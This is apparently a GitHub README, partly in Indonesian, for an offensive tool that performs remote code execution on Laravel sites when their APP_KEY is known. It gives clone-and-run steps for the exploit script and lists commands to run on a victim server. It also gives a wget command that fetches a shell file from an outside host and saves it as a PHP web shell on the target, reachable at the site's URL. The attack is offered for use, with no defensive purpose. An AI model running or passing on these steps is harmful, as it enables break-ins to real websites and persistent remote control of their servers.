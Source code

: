 <p align="center">
<img src="https://i.ibb.co/87jRW62/20201215-092654.jpg">
### Laravel_rce
Laravel Remote Code Execution With APP_KEY
```
$ pkg install git
$ php install php
$ git clone https://github.com/yrxsecurity/laravel_rce
$ cd laravel_rce
$ php memek.php
```
Web Nya Harus Memiliki APP_KEY , BIAR BISA EKSEKUSI RCE NYA

Basic Command : ls , id , whoami , uname -a , wget

### Laravel RCE Reserve Shell
```
Command : wget http://dyan6etar.cf/shell.txt -O NamaShellNya.php (Enter)
```
Akses : site.com/NamaShellNya.php



Subscribe My Channel:D
